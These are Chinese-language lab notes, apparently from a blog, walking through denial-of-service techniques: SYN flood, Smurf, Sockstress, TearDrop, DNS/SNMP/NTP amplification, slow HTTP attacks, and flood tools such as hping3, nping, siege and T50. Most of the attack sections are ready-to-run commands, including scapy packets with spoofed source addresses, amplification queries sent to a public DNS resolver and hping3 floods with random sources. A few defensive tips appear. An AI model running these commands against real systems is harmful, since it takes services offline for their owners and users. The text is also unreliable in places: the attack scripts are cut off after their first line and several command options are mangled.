

拒绝服务常见的攻击方式总结
1.拒绝服务简介
- Dos不是Ddos
- 利用程序漏洞或一对一资源耗尽的Denial of service拒绝服务
- DDos分布式拒绝服务
- 一对一的攻击完全拼各自的资源，效果差。
- 多对一的攻击汇聚资源能力，重点在于量大，属于资源耗尽型
- 历史
- 以前：欠缺技术能力的无赖，我ping死你
- 现在：最强大最危险的攻击，攻击方式众多
- 贩卖和租用肉鸡已经成为黑产种重要的一部分
- 最终的办法就是拼资源，投资抗D，或者乖乖交保护费。
2.DoS分类
- D网络
- 基于巨量的Flood耗尽目标网络带宽资源
- ICMP Flood、UDP Flood
- D协议
- 攻击协议漏洞发起的拒绝服务攻击
- 如Syn Flood、Ping of Death、ARP、DNS、802.11、SSL
- D应用
- 针对应用软件和操作系统漏洞发起的拒绝服务攻击
- 大量频繁访问消耗系统资源严重的应用（CC）
- 通常表现为操作系统运行正常，网络流量不大，但服务停止响应
- 可以是一击毙命的，也可以是耗尽目标资源的
3.为何会被Dos
- 从攻击者到被害者
- 网络—>FW（服务）—>服务器OS—>服务应用
- 资源耗尽
- 网络：带宽
- FW:吞吐量、并发连接
- 服务器：CPU、内存、I/O
- 应用：处理请求能力，对OS资源的使用权
- 程序漏洞攻击
- 缓冲区溢出
- 协议、程序逻辑漏洞
- 链路上任何一点都可成为目标

拒绝服务——Syn-Flood攻击
简介
1.TCP连接和端口过程
TCP建立连接
第一次握手：建立连接时，客户端发送syn包（syn=j）到服务器，并进入SYN_SENT状态，等待服务器确认；SYN：同步序列编号（Synchronize Sequence Numbers）。
第二次握手：服务器收到syn包，必须确认客户的SYN（ack=j+1），同时自己也发送一个SYN包（syn=k），即SYN+ACK包，此时服务器进入SYN_RECV状态；
第三次握手：客户端收到服务器的SYN+ACK包，向服务器发送确认包ACK(ack=k+1），此包发送完毕，客户端和服务器进入ESTABLISHED（TCP连接成功）状态，完成三次握手。
完成三次握手，客户端与服务器开始传送数据，在上述过程中，还有一些重要的概念：
未连接队列
在三次握手协议中，服务器维护一个未连接队列，该队列为每个客户端的SYN包（syn=j）开设一个条目，该条目表明服务器已收到SYN包，并向客户发出确认，正在等待客户的确认包。这些条目所标识的连接在服务器处于SYN_RECV状态，当服务器收到客户的确认包时，删除该条目，服务器进入ESTABLISHED状态。
关闭TCP连接
对于一个已经建立的连接，TCP使用改进的三次握手来释放连接（使用一个带有FIN附加标记的报文段）。TCP关闭连接的步骤如下：
第一步，当主机A的应用程序通知TCP数据已经发送完毕时，TCP向主机B发送一个带有FIN附加标记的报文段（FIN表示英文finish）。
第二步，主机B收到这个FIN报文段之后，并不立即用FIN报文段回复主机A，而是先向主机A发送一个确认序号ACK，同时通知自己相应的应用程序：对方要求关闭连接（先发送ACK的目的是为了防止在这段时间内，对方重传FIN报文段）。
第三步，主机B的应用程序告诉TCP：我要彻底的关闭连接，TCP向主机A送一个FIN报文段。
第四步，主机A收到这个FIN报文段后，向主机B发送一个ACK表示连接彻底释放。
2.TCP 连接状态
3.两个序号和三个标志位：
- 序号：seq序号，占32位，用来标识从TCP源端向目的端发送的字节流，发起方发送数据时对此进行标记。
- 确认序号：ack序号，占32位，只有ACK标志位为1时，确认序号字段才有效，ack=seq+1。
- 标志位：共6个，即URG、ACK、PSH、RST、SYN、FIN等，具体含义如下：
- URG：紧急指针（urgent pointer）有效。
- ACK：确认序号有效。
- PSH：接收方应该尽快将这个报文交给应用层。
- RST：重置连接。
- SYN：发起一个新连接。
- FIN：释放一个连接。
- 需要注意的是：
- 不要将确认序号ack与标志位中的ACK搞混了。
- 认方ack=发起方req+1，两端配对

在第一次消息发送中，A随机选取一个序列号作为自己的初始序号发送给B；第二次消息B使用ack对A的数据包进行确认，
因为已经收到了序列号为x的数据包，准备接收序列号为x+1的包，所以ack=x+1，同时B告诉A自己的初始序列号，就是seq=y；
第三条消息A告诉B收到了B的确认消息并准备建立连接，A自己此条消息的序列号是x+1，所以seq=x+1，而ack=y+1是表示A正准备接收B序列号为y+1的数据包。
4.四次挥手
- 由于TCP连接时全双工的，因此，每个方向都必须要单独进行关闭，这一原则是当一方完成数据发送任务后，发送一个FIN来终止这一方向的连接，
- 收到一个FIN只是意味着这一方向上没有数据流动了，即不会再收到数据了，但是在这个TCP连接上仍然能够发送数据，直到这一方向也发送了FIN
- 首先进行关闭的一方将执行主动关闭，而另一方则执行被动关闭，上图描述的即是如此。
- 第一次挥手：Client发送一个FIN，用来关闭Client到Server的数据传送，Client进入FIN_WAIT_1状态
- 第二次挥手：Server收到FIN后，发送一个ACK给Client，确认序号为收到序号+1（与SYN相同，一个FIN占用一个序号），Server进入CLOSE_WAIT状态。
- 第三次挥手：Server发送一个FIN，用来关闭Server到Client的数据传送，Server进入LAST_ACK状态。
- 第四次挥手：Client收到FIN后，Client进入TIME_WAIT状态，接着发送一个ACK给Server，确认序号为收到序号+1，Server进入CLOSED状态，完成四次挥手。
1.scapy构造数据包
1. 构造 IP 数据包
1 | > i=IP() |
1 | > i.dst="10.10.10.132" |
2.构造TCP数据包
1 | > t=TCP() |
1 | > t.dport=22 |
3. 发送数据包需要构造成 IP()/TCP() 形式：i/t
1 | >>> sr1(i/t,verbose=1,timeout=2) |
4.由于重建连接请求时会向服务器发送 reset 数据包重置连接请求，达不到攻击效果，则可以在本地设置防火墙规则：
1 | iptables -A OUTPUT -p tcp --tcp-flags RST RST -d 10.10.10.132 -j DROP |
2. 脚本攻击
脚本攻击 linux 服务器
1.脚本内容
1 | #!/usr/bin/python |
2.执行脚本
1 | root@kali:~# python syn_flood.py 10.10.10.141 22 200 |
抓包发现网络上充满数据包
使用 ssh 连接 服务器发现无法响应
在服务器使用 top 查看内存占用情况，发现占用极少
在服务器查看连接，发现连接数非常多
1 | 查看 linux 服务器最大 TCP 连接数发现是 255 个 |
2.攻击windows机器
1.测试可用性
1 | root@kali:~# rdesktop 10.10.10.141 |
2.执行脚本
1 | root@kali:~# python syn_flood.py 10.10.10.141 3389 10 |
winxp 的最大半开连接数只有 10 个
泛洪攻击常伴随IP地址欺骗
伪造源地址为 3.3.3.3，访问许多网站，将响应数据包发送给 3.3.3.3
- 经常用于 DoS 攻击
- 根据 IP 头地址寻址
- 伪造IP源地址
- 便捷路由器过滤源IP
- 入站、出站
- 受害者可能是源、目的地址
- 绕过基于地址的验证
- 压力测试模拟多用户
- 上层协议（TCP序列号）
拒绝服务——Smurf攻击
1.简介
- 向广播地址发送伪造源地址的 ICMP echo Request （ping）包
- LAN 所有计算机向伪造源地址返回响应包
- 对现代操作系统几乎无效（不响应目标为广播的ping）
2.测试攻击
1 | > i=IP() |
1 | > i.src="10.10.10.132" |

1 | > p=ICMP() |
1 | > r=send(i/p) |
1 | # 使用一行发送： |
拒绝服务–Sockstress 攻击
1.简介
- 2008年由Jack C.Louis 发现
- 针对TCP服务的拒绝服务攻击
- 消耗被攻击目标系统资源
- 与攻击目标建立大量socket链接
- 完成三次握手，最后的ACK包window 大小为0 (客户端不接收数据)
- 攻击者资源消耗小(CPU、内存、带宽)
- 异步攻击，单机可拒绝服务高配资源服务器
- Window 窗口实现的TCP 流控
2.脚本攻击
1.python测试脚本
1 | #!/usr/bin/python |
测试结果
1
2# 查看系统连接数
netstat | grep ESTABLISHED | wc -l
2.C攻击脚本
- 下载编译
1 | gcc -Wall -c sockstress.c |
查看攻击效果
1
2
3netstat -tulnp | grep ESTABLISHED | wc -l
free
top
3.防御措施
- 直到今天sockstress攻击仍然是一种很有效的DOS攻击方式
- 由于建立完整的TCP三步握手，因此使用syn cookie防御无效
- 根本的防御方法是采用白名单(不实际)
- 折中对策限制单位时间内每IP建的TCP连接数
- 封杀每30秒与 80 端口建立连接超过 10 个的IP地址
- iptables -I INPUT -p tcp –dport 80 -m state–state NEW -m recent–set
- iptables -I INPUT-p tcp -dport 80 -m state-state NEW-m recent -update–seconds 30 -hitcount 10 j DROP
- 以上规则对DDOS攻击无效
拒绝服务–TearDrop 攻击
1.简介
- 主要针对早期微软操作系统（95、98、3.x、nt）
- 近些年有人发现对 2.x 版本的安卓系统、6.0 IOS 系统攻击有效
- 原理很有趣
- 使用 IP 分段便宜实现分段覆盖，接收端处理分段覆盖时可被拒绝服务
- 攻击效果
- 被攻击者蓝屏、重启、卡死
- Ping大包，比较正常分段与teardrop攻击流量的区别
- 针对早期windows系统SMB协议的攻击
- teardrop_smb.py
- 针对Android.IOS 系统的攻击
- teardrop_androidios.py
- 攻击向量并不确定，要视具体协议分析
2.攻击目标
泪滴攻击是一种拒绝服务（DoS）攻击，涉及将碎片数据包发送到目标机器。由于接收这些数据包的机器由于TCP / IP碎片重组错误而无法重新组装，因此数据包相互重叠，导致目标网络设备崩溃。这通常发生在较早的操作系统上，例如Windows 3.1x，Windows 95，Windows NT和2.1.63之前版本的Linux内核。
IP报头中的一个字段是“片段偏移量”字段，指示包含在分段数据包中的数据相对于原始数据包中的数据的起始位置或偏移量。如果一个分片数据包的偏移量和大小之和不同于下一个分片数据包的偏移量和大小之和，则数据包重叠。发生这种情况时，易受泪滴攻击的服务器无法重新组装数据包 - 从而导致拒绝服务状况。
3.攻击脚本
1 | #!/usr/bin/python |
拒绝服务–DNS 放大攻击
1.简介
- 产生大流量的攻击方法
- 单机的带宽优势
- 巨大单机数量形成的流量汇聚
- 利用协议特性实现放大效果的流量
- DNS协议放大效果
- 查询请求流量小，但响应流量可能非常巨大
- dig ANY hp.com @202 106.0.20 (流量放大约8倍)
- 攻击原理
- 伪造源地址为被攻击目标地址，向递归域名查询服务器发起查询
- DNS服务器成为流量放大和实施攻击者，大量DNS服务器实现DDOS
2.攻击
1 | root@kali:~# dig any baidu.com @114.114.114.114 |
发送60字节长度，返回216字节长度
3.Scapy构造攻击数据包原理
- IP/UDP/DNS/DNS 查询内容
- 结合IP地址欺骗，利用大量 DNS 服务器做傀儡攻击目标
4.构造数据包过程
1.构造 IP 数据包
1 | > i=IP() |
1 | > i.dst="114.114.114.114" |
2.构造UDP数据包
1 | > u=UDP() |
3.构造 DNS 数据包
1 | > d=DNS() |

1 | > d.rd=1 |
4.设置查询目标
1 | > q=DNSQR() |
1 | > q.qname='qq.com' |
1 | > d.qd=q # 设置目标 |
5.拼接数据包
1 | > r=(i/u/d) |
1 | > r.display() |
1 | > i.src="10.10.10.141" |
6.发送数据包
1 | > send(r) |
发送 60 字节的数据包，返回 2；l30 字节的数据包
拒绝服务——SNMP服务
1.简介
- 简单网络管理协议
- Simmple Network Management Protocol
- 一般用来监控和管理网络设备
- 服务端口UDP 161/162
- 管理站(manager/客户端)、被管理设备(agent/服务端)
- 管理信息数据库(MIB) 是一个信息存储库，包含管理代理中的有关配置和性能的数据，按照不同分类，包含分属不同组的多个数据对象
- 每一个节点都有一个对象标识符(OID) 来唯一的标识一IETF定义便准的MIB库厂家自定义MIB库
- 攻击原理
- 请求流量小，查询结果返回流量大
- 结合伪造源地址实现攻击
2.安装SNMP
- 安装 SNMP，定义 community
3.scapy构造数据包
- 流程
- 步骤
构造 IP 数据包
1 | > i=IP() |
构造 UDP 数据包
1 | > u=UDP() |
构造 SNMP 数据包
1 | > s=SNMP() |
设置放大倍数
1 | >>> b=SNMPbulk() |
1 | > s.display() |
设置 SNMP 数据包
1 | > s.PDU=b |
合成完整数据包
1 | > r=(i/u/s) |
发送数据包
1 | > sr1(r) |
发送 98 字节，返回 4534 字节的数据包
测试放大200倍效果
1 | > b.max_repetitions=200 |

1 | > r=(i/u/s) |
发送 99 字节，返回 8894 字节
拒绝服务——NTP 放大攻击
1.简介
- 网络时间协议
- Network Time Protocol
- 保证网络设备时间同步
- 电子设备互相干扰导致时钟差异越来越大
- 影响应用正常运行、日志审计不可信
- 服务端口UDP 123
- 攻击原理
- NTP 服务提monlist (MON_GETLIST) 查询功能
- 监控NTP 服务器的状况
- NTP 服务提monlist (MON_GETLIST) 查询功能
- 客户端查询时，NTP服务器返回最后同步时间的600 个客户端IP
- 每6个IP一个数据包，最多100个数据包(放大约100倍)
2.扫描NTP服务器
1.服务器安装 ntp
1 | root@xu:~# apt-get install ntp |
2.kali扫描发现http服务器
1 | root@kali:~# nmap -sU -p 123 10.10.10.0/24 --open |
3.kali 扫描发现漏洞
1 | root@kali:~# ntpdc -n -c monlist 10.10.10.138 |
4.配置 ntp 服务器配置
1 | 注释 38 和 39行 |
5.kali 扫描发现漏洞
1 | root@kali:~# ntpdc -n -c monlist 10.10.10.138 |
3.防御策略
- NTP 攻击策略
- 升级到 ntpd 4.2.7p26 及以上版本（默认关闭 monlist 查询）
- 手动关闭 monlist 查询功能
拒绝服务–应用层DoS 攻击
- 应用服务漏洞
- 服务代码存在漏洞，遇异常提交数据时程序崩溃
- 应用处理大量并发请求能力有限，被拒绝的是应用或OS
- 缓冲区溢出漏洞
- 向目标函数随机提交数据，特定情况下数据覆盖临近寄存器或内存
- 影响: 远程代码执行、DOS
- 利用模糊测试方法发现缓冲区溢出漏洞
- CesarFTP 0.99 服务漏洞
- ftp_fuzz.py # MKD/RMD
- MS12-020 远程桌面协议DOS漏洞
2. 攻击测试 MS12-020
1 | root@kali:~# searchsploit ms12-020 |
3. Slowhttptest
Slowhttptest (源自google)
- 低带宽应用层慢速DOS攻击(相对于CC等快速攻击而言的慢速)
- 最早由Python编写，跨平台支持(Linux、win、Cygwin、OSX)
- 尤其擅长攻击apache.tomcat (几乎百发百中)
攻击方法
- Apache Range Header attack
- 客户端传输大文件时，体积查过HTTP Body大小限制时进行分段
- 耗尽服务器CPU、内存资源
- Apache Range Header attack
ulimite -n 70000
HTTP Post 攻击模式
- slowhttptest -c 1000 -B -g -o body_stats -i 110 -r 200 -s 8192 -t FAKEVERB -u http://10.10.10.132 -x 10 -p 3
slowloris 攻击模式
- slowhttptest -c 1000 -H -g -o header_stats -i 10 -r 200 -t GET -u http://10.10.10.132 -x 24 -p 3
支持代理
大量应用服务器和安全设备都无法防护慢速攻击
4.攻击测试
1 | root@kali:~# slowhttptest -c 60000 -B -g -o body_stats -i 110 -r 200 -s 8192 -t FAKEVERB -u http://10.10.10.132 -x 10 -p 3 -l 999999 |
1 | root@kali:~# slowhttptest -c 1000 -H -g -o my_header_stats -i 10 -r 200 -s 8192 -t GET -u http://10.10.10.132 -x 10 -p 3 |
1 | root@kali:~# man slowhttptest |
拒绝服务攻击工具
1.rudy
1.简介
- 慢速应用层HTTP POST攻击，与slowhttptest原理相同
- 每次只传输一个字节的数据、
- 美剧黑客军团”中曾提到此攻击手段
- 攻击有表单WEB页面，攻击时需指定攻击的参数名称
- https://sourceforge.net/projects/r-u-dead-yet/
2.测试
1 | root@kali:~/rudy# ls |
修改配置文件

1 | root@kali:~/rudy# ./r-u-dead-yet-v2.2.py |
Hping3
1.简介
几乎可以定制发送任何 TCP/IP 数据包，用于测试 FW、端口扫描、性能测试
syn flood 攻击
- hping3 -c 1000 -d 120 -S -w 64 -p 80 –flood –rand-source 10.10.10.132
- hping3 -S -P -U -p 80 –flood –rand-source 10.10.10.132
- hping3 -SARFUP -p 80 –flood –rand-source 10.10.10.132 (TCP Flood)
ICMP Flood 攻击
- hping3 -q -n -a 1.1.1.1 –icmp -d 200 –flood 10.10.10.132
UDP Flood 攻击
- hping3 -a 1.1.1.1 –udp -s 53 -d 100 -p 53 –flood 10.10.10.132
2.攻击
syn_flood 攻击
1
root@kali:~# hping3 -c 1000 -d 120 -S -w 64 -p 80 --flood --rand-source 10.10.10.132

1 | hping3 -S -P -U -p 80 --flood --rand-source 10.10.10.132 |
tcp_flood 攻击
1
root@kali:~# hping3 -SARFUP -p 80 --flood --rand-source 10.10.10.132
icmp_flood 攻击
1
2-a 伪造源地址
root@kali:~# hping3 -q -n -a 1.1.1.1 --icmp -d 200 --flood 10.10.10.132udp_flood 攻击
1
root@kali:~# hping3 -a 1.1.1.1 --udp -s 53 -d 100 -p 53 --flood 10.10.10.132
LAND攻击
特殊种类的 SYN Flood 攻击
源地址和目的地址都是靶机IP，受害者和自己完成三次握手
hping3 -n -a 10.10.10.132 -S -d 100 -p 80 –flood 10.10.10.132
1
root@kali:~# hping3 -n -a 10.10.10.132 -S -d 100 -p 80 --flood 10.10.10.132
3.nping
TCP 全连接 DoS 攻击
- nping –tcp-connect –rate=10000 -c 1000000000 -q 10.10.10.132
查公网 IP
- nping –echo-client “public” echo.nmap.org –udp
Siege
http/https 压力测试工具，模拟多个用户并发访问请求
siege -g http://10.10.10.132
siege -i -c 1000 http://10.10.10.132 -A siegehttp
同时攻击多个 url ，使用 -f 调用字典文件
单独使用 siege -i -c 1000 ，也会调用字典文件（url 列表）
/etc/siege/urls.txt
1
2# 查看 banner 信息
root@kali:~# siege -g http://10.10.10.132
1 | root@kali:~# siege -i -c 1000 http://10.10.10.132 -A Mozilla/5.0 |
1 | root@kali:~# cat /etc/siege/urls.txt |
1 | root@kali:~# siege -i -c 1000 |
5.T50
网络压力测试
t50 10.10.10.132 –flood –turbo -S –protocol TCP –dport 80
t50 10.10.10.132 –flood –turbo -S TCP UDP OSPF EIGRP –dport 22
1
root@kali:~# t50 10.10.10.132 --flood --turbo -S --protocol TCP --dport 80
6.NMAP
1 | root@kali:~# grep dos /usr/share/nmap/scripts/script.db | cut -d "\"" -f 2 |